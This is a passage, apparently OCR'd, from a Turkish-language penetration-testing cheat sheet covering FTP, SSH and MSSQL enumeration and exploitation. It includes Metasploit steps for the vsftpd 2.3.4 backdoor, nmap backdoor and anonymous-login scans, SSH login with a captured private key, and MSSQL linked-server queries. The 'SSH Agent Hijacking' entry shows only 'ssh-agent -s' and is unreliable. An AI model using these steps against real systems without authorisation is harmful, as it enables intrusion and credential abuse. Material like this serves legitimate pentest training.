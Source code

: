 
## 8. File Transfer Protocol (FTP)
### Gelişmiş Enumeration
**Yazılabilir Dizini Belirleme:**
```bash
ftp <hedef-ip>
> dir
```
**Yanlış Yapılandırmaları Kontrol Etme:**
```bash
nmap -p 21 --script ftp-vsftpd-backdoor,ftp-anon <hedef-ip>
```

### Gelişmiş Exploitation
**FTP Backdoor Exploiti:**
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <hedef-ip>
run
```

---

## 9. Secure Shell (SSH)
### Gelişmiş Enumeration
**Anahtar Değişim Yöntemlerini Analiz Etme:**
```bash
ssh-audit <hedef-ip>
```
**Zayıf Yapılandırmaları Tespit Etme:**
```bash
nmap -p 22 --script ssh2-enum-algos <hedef-ip>
```

### Gelişmiş Exploitation
**Kimlik Bilgisi Yeniden Oynatma Saldırısı:**
```bash
ssh -i <ozel-anahtar> <kullanıcı-adı>@<hedef-ip>
```
**SSH Agent Hijacking:**
```bash
ssh-agent -s
```

---

## 10. Microsoft SQL Server (MSSQL)
### Gelişmiş Enumeration
**Veritabanı Bilgilerini Sorgulama:**
```bash
sqsh -S <hedef-ip> -U <kullanıcı-adı> -P <şifre>
SELECT name FROM sys.databases;
```
**Bağlı Sunucuları Listeleme:**
```sql
EXEC sp_linkedservers;
```
